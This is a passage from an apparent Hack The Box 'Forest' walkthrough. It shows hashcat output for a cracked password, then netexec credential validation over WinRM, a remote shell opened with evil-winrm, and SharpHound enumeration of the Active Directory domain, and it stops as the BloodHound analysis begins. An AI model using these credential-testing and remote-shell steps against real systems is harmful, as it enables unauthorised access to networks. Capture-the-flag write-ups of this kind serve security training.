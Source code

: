 ```bash
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4084736/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s456822 -> s3r3ndipit
Hardware.Mon.#1..: Util: 91%

Started: Sat Jul  5 19:58:33 2025
Stopped: Sat Jul  5 19:59:12 2025

```

We can see that the hash has been cracked and the password is s3rvice.

we will use netexec with this creds to check if we can winrm and get a shell.

```bash
$netexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
And it works. Now we will use evil-winrm to get the shell.

```bash
$evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 

```
## Shell as Administrator

With this shell, we can upload `SharpHound.exe` and collect data to further enumerate. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload SharpHound.exe

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ./SharpHound.exe -c All
<SNIP>>
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-07-05T18:16:01.7277200-07:00|INFORMATION|SharpHound Enumeration Completed at 6:16 PM on 7/5/2025! Happy Graphing!

```
We will now download the zip file on our machine, extract the zip contents and the load into the bloodhoud for analysis. Once the data has been loaded into the bloodhound we can check the interesting queries.First, we will search for the svc-alfresco user, and mark it as owned. It's found that svc-alfresco is a member of six groups
through nested membership.

